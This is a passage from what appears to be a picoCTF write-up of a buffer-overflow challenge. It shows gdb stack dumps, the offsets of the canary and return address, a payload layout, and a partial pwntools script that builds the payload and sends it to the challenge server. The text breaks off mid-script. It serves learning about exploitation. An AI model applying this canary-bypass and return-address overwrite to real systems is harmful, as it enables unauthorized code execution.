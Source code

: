 ```
Input> AAAAAAAA

Breakpoint 2, 0x08049549 in vuln ()
(gdb) x/64x $ebp-100
0xffffcbd4:	0x00000000	0x00000004	0x0804c000	0x08049640
0xffffcbe4:	0x0804c000	0x41414141	0x41414141	0xffffcc38
0xffffcbf4:	0xf7fdabb0	0x00000000	0x0804c000	0x08049640
0xffffcc04:	0xf7ffcb60	0xffffcc38	0x08049480	0x0804d1a0
0xffffcc14:	0x00000001	0x00000004	0x0804d1a0	0x000003e8
0xffffcc24:	0x0804c000	0x6f636970	0x00000001	0x000003e8
0xffffcc34:	0x0804c000	0xffffcc58	0x08049622
```
**buf:** 0xffffcbe8
**Canary Location:** buf + 64
**Return Address Location:** canary + 16
**Target Address:** 0x08049336

**Payload:** A*64 + canary + A*16 + target_address

To do this, along with the second and final part of the challenge, I will use the following **Python** script
### Python Script
```python
from pwn import *
import sys

def reverse_str(str):
    chunks = [str[i:i+2] for i in range(0, len(str), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)


def construct_payload(canary, canary_dist, addr="", ret_dist=0, encode=False):
    payload = 'A'*canary_dist
    payload += reverse_str(canary)
    payload += 'A'*ret_dist
    if addr !="":
        payload += reverse_str(addr)
    if encode:
        return payload.encode().decode('unicode_escape').encode('latin1')
    return payload


def send_to_server(payload):
    # Connect to the remote server
    host = 'saturn.picoctf.net'
    port = 62869
    conn = remote(host, port)

    conn.recvline()
    conn.recv()

    conn.sendline(str(len(payload)).encode())

    conn.recv()

    conn.sendline(payload)

    # Receive the server's response
    response = conn.recvall()
```